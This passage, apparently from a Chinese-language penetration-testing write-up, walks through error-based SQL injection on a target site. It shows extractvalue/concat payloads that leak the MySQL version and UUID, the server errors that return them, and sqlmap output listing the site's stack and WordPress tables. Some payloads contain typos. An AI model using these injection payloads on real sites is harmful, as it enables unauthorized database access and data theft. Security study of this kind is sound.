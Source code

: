 这一次，我成功获取到了目标站点的主机名hostname：

[![](https://p3.ssl.qhimg.com/t0139433ce8dd4f28fe.png)](https://p3.ssl.qhimg.com/t0139433ce8dd4f28fe.png)

等等，我竟然忘记检查数据库的版本了！所以我又使用了下面这条查询语句：

```
Test%27and extravtcalue(1,concat(0x00a,@@version))or’
```

响应中的错误信息输出如下所示：



```
[previous:Exception:private] =&gt;
[errorInfo] =&gt; Array
(
[0] =&gt; HY000
[1] =&gt; 1105
[2] =&gt; XPATH syntax error: ‘
5.1.73–1+deb6u1-log’
)
```

[![](https://p0.ssl.qhimg.com/t011c70e1fd0f3dc5cb.png)](https://p0.ssl.qhimg.com/t011c70e1fd0f3dc5cb.png)

接下来就是UUID了，这一步我所用的测试语句如下所示:<br>



```
Test%27and extractvalue(1,concat(0x00a,UUID())or’
[previous:Exception:private] =&gt;
 [errorInfo] =&gt; Array
 (
 [0] =&gt; HY000
 [1] =&gt; 1105
 [2] =&gt; XPATH syntax error: ‘
ab88…..UUDI’
 )
```

服务器端返回的信息如下所示，其中包含了UUID：

[![](https://p2.ssl.qhimg.com/t01507db95b17f3125b.png)](https://p2.ssl.qhimg.com/t01507db95b17f3125b.png)

到现在为止，我已经收集到了很多有价值的信息了，而且这些信息已经足以能够证明这个SQL注入的破坏力和影响力了。但是我想要的永远更多，而我又不想浪费时间，所以接下来我打开了终端并运行了sqlmap，下面是sqlmap的扫描结果：



```
web server operating system: Linux Debian 6.0 (squeeze)
web application technology: Apache 2.2.16, PHP 5.4.42
back-end DBMS: MySQL &gt;= 5.0
Database: goodwebsite[18 tables]
+ — — — — — — — — — — — — -+
| wp_bms_log |
| wp_bms_quiz_lh_answer |
| wp_bms_quiz_lh_question |
| wp_bms_quiz_lh_quiz |
| wp_bms_statistics |
| wp_bms_user |
| wp_commentmeta |
| wp_comments |
| wp_links |
| wp_options |
| wp_postmeta |
| wp_posts |
```